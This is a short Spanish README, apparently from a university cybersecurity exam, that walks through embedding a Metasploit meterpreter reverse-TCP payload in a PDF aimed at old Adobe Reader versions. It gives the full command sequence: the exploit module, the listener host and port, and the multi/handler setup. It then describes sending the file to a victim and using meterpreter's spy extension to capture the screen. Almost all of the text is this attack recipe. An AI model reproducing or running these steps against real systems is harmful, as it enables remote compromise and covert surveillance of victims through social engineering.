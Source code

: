 # -UDEM--Ciberseguridad
Parcial de Ciberseguridad

Vídeo:

Explicación: Incrusta una Carga (payload) dentro un archivo PDF existente. El archivo PDF resultante puede ser enviado al objetivo como parte de un ataque de ingeniería social.

Sistema Operativo: Windows XP SP3 (Inglés/Español) / Windows Vista / Windows 7 (Inglés)
Programas: Adobe Reader v8.x, v9.x

•	use exploit/windows/fileformat/adobe_pdf_embedded_exe
•	set payload windows/meterpreter/reverse_tcp
•	ifconfig
•	set lhost 10.191.3.4
•	set lport 4444
•	set infilename /root/parcial/el_gigante_egoista.pdf
•	exploit

•	back
•	use exploit/multi/handler
•	set lhost 10.191.3.4
•	set lport 4444
•	exploit

•	Enviar archivo a la máquina que se desea atacar c
•	cuando se tenga el acceso a la máquina atacada se podrá usar todas las herramientas que tiene meterpreter

•	load espia
•	screengrab
